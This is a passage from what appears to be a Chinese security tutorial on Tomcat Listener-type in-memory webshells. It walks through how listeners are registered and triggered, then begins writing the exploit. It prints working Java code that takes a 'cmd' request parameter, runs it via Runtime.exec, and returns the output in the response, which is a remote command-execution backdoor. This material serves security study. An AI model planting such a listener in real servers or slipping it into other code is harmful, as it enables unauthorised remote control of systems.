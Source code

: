 JAVA

```
public void addApplicationEventListener(Object listener) {
        applicationEventListenersList.add(listener);
}
```

> 到这一步的调试就没有内容了，所以这里的逻辑有应该是和 Filter 差不多的，Listener 这里有一个 Listener 数组，对应的 Filter 里面也有一个 Filter 数组。

在 Listener 组内的 Listeners 会被逐个触发，最后到我们自己定义的 Listener 的 `requestInitialized()` 方法去。

![img](https://drun1baby.top/2022/08/27/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-04-Tomcat-%E4%B9%8B-Listener-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/UseRequestInitialized.png)

### 3. 小结运行流程

- 在应用开始前，先读取了 web.xml，从中读取到 Listeners，并进行加载；加载完毕之后会进行逐个读取，对每一个 Listener，都会到 `requestInitialized()` 方法进去。

## 0x05 Listner 型内存马 EXP 编写

### 1. EXP 分析

如果我们要实现 EXP，要做哪些步骤呢？

- 很明显的一点是，我们的恶意代码肯定是写在对应 Listener 的 `requestInitialized()` 方法里面的。
- 通过 StandardContext 类的 `addApplicationEventListener()` 方法把恶意的 Listener 放进去。

Listener 与 Filter 的大体流程是一样的，所以我们也可以把 Listener 先放到整个 Servlet 最前面去

这就是最基础的两步了，如果排先后顺序的话一定是先获取 StandardContext 类，再通过 `addApplicationEventListener()` 方法把恶意的 Listener 放进去，我们可以用流程图来表示一下运行过程。

![img](https://drun1baby.top/2022/08/27/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-04-Tomcat-%E4%B9%8B-Listener-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/ListenerRoute.png)

### 2. EXP 编写

我们一步步来实现整个 EXP

- 首先做最简单的工作 ———— 编写恶意的代码

JAVA

```
String cmd;
        try {
            cmd = sre.getServletRequest().getParameter("cmd");
            org.apache.catalina.connector.RequestFacade requestFacade = (org.apache.catalina.connector.RequestFacade) sre.getServletRequest();
            Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
            requestField.setAccessible(true);
            Request request = (Request) requestField.get(requestFacade);
            Response response = request.getResponse();

            if (cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                int i = 0;
                byte[] bytes = new byte[1024];
                while ((i=inputStream.read(bytes)) != -1){
                    response.getWriter().write(new String(bytes,0,i));
                    response.getWriter().write("\r\n");
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
```